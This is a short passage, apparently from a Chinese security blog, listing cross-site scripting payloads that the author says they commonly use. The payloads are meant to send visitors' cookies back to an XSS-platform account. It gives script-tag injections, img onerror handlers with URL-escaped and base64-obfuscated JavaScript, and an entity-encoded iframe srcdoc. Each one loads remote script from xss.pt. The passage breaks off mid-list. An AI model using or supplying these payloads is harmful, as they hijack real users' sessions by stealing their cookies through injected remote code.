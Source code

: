 [![img](images/20210409211030-f5f1fdfa-9934-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211030-f5f1fdfa-9934-1.jpg)

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

```
图片插件一：  https://xss.pt/GFLXp.jpg    
<Img sRC=https://xss.pt/GFLXp.jpg>

一、
1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

2.标准代码
</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

二、IMG 标签
1.
</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.pt%2FGFLX%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

2.<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='https://xss.pt/GFLX';>

3.通杀火狐谷歌360
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9wNzBlPycrTWF0aC5yYW5kb20oKQ=='))>

三、标签iframe等
1.实体10进制编码↓
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#71;&#70;&#76;&#88;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

2.实体16进制编码
```